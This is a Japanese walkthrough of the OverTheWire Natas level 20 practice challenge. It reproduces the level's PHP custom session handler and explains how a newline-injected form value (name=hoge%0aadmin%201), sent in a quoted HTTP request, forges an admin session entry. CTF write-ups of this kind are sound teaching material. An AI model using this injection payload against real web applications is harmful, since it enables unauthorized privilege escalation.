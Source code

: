 ![](img/natas20-1.png)  

通常ユーザとしてログインされており、flagを得るには管理者としてログインしないといけないらしい。  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "<censored>" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
<?php

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) {
    //debug("MYOPEN $path $name");
    return true;
}

/* we don't need this */
function myclose() {
    //debug("MYCLOSE");
    return true;
}

function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode() ?: "";
}

function mywrite($sid, $data) {
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data");
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
    return true;
}

/* we don't need this */
function mydestroy($sid) {
    //debug("MYDESTROY $sid");
    return true;
}
/* we don't need this */
function mygarbage($t) {
    //debug("MYGARBAGE $t");
    return true;
}

session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>

<form action="index.php" method="POST">
Your name: <input name="name" value="<?=$name?>"><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

クエリパラメータに"debug"が使えるので付加して、  
"Your name"に"tekitou"を入力してみると...  

![](img/natas20-2.png)  

このようなdebugが表示された。  

```
DEBUG: MYREAD cp91vgfoggd2rg328kjf5k2ocj
DEBUG: Reading from /var/lib/php/sessions/mysess_cp91vgfoggd2rg328kjf5k2ocj
DEBUG: Read [name tekitou]
DEBUG: Read []
```
```
DEBUG: MYWRITE cp91vgfoggd2rg328kjf5k2ocj name|s:7:"tekitou";
DEBUG: Saving in /var/lib/php/sessions/mysess_cp91vgfoggd2rg328kjf5k2ocj
DEBUG: name => tekitou
```

ソースコードを見ると、
`session_set_save_handler()`でカスタムのセッション保存処理を行っており、  
`myread()`でセッションファイルの読み込みをしており、フォーマットはkey valueのテキスト形式（例：admin 1）である。  
`mywrite()`で$_SESSIONの内容をmysess_<SID>に書き込んでおり、シリアライズ形式ではなく、独自の「1行1エントリ」テキスト形式である。  

他にも`myopen()`、`myclose()`、`mydestroy()`、`mygarbage()`関数があるがダミーである。  


処理の流れは、以下のようにフォームからPOST or GETで送信されたnameをセッションに保存する。  
```
if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}
```


`myread()`からコードを抜粋...  
```
foreach(explode("\n", $data) as $line) {
    // 各行の処理（↓ここで key と value に分けて $_SESSION に代入）
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```
`myread()`ではセッションファイルの中身（テキスト）を改行で区切って1行ずうｔ取り出し、  
各行を"キー 値"の形式で分解し、$_SESSION配列に入れているので、  

以下のようにリクエストを送ると、  

```
POST /index.php?debug HTTP/1.1
Host: natas20.natas.labs.overthewire.org
Authorization: Basic base64(natas20:<your_password>)
Cookie: PHPSESSID=hoge123
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

name=hoge%0aadmin%201
```

セッションファイルが以下のようになっていたら、  
```
name hoge
admin 1
```
が  
```
$_SESSION["name"] = "hoge";
$_SESSION["admin"] = "1";
```
というように再構築される。  


そして再アクセスを行い管理者として認定されているか確認してみると、  

![](img/natas20-3.png)  


クリア


